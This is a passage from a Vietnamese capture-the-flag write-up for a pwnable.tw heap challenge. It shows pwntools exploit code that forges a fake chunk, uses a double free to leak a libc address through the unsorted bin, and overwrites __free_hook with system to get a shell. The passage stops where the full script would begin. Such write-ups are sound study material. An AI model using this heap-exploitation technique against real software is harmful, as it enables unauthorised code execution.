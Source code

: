 def show():
    p.sendlineafter(b'Your choice :',b'3')

bss = 0x0000000000602060

input()

#fake chunk
p.sendafter(b'Name:',p64(0) + p64(0x501))

malloc(0x50,b'a')

# double free
free()
free()
# overwrite fd 
malloc(0x50,b'a')
#FAKE CHUNK again
malloc(0x50,(p64(0) + p64(0x21) + p64(0) + p64(0))*2)

# khởi tạo lại để biến ptr thành bss+0x10
malloc(0x60,b'a')
free()
free()
malloc(0x60,p64(bss+0x10))
malloc(0x60,b'a')
malloc(0x60,b'a')
free()
```

- và lúc này khi free()fake chunk 0x500 thì nó sẽ đi vào ```unsorted``` và ta có địa chỉ libc

![image](/assets/images/Pwnable.tw/15.png)

- lúc này ta cần tính toán địa chỉ base của libc , sau đó có thể overwrite ```__free_hook``` hoặc ```__malloc_hook``` , ở đây mình chọn ```free_hook```

![image](/assets/images/Pwnable.tw/16.png)

- overwrite _hook : tiếp tục tận dụng ```double free``` để ghi ```system``` vào ```__free_hook```  , và lúc này con trỏ ```ptr``` của ta sẽ là địa chỉ của ```free_hook```  , ta cần malloc lại để tạo ```ptr``` mới và ghi ```/bin/sh``` vào chunk đó và tiến hành free() , 1 cách dễ dàng hơn là dùng ```one_gadget```
```
malloc(0x70,b'a')
free()
free()
malloc(0x70,p64(libc.sym.__free_hook))
malloc(0x70,b'a')
malloc(0x70,p64(libc.sym.system))
```


script : 


```
#!/usr/bin/env python3
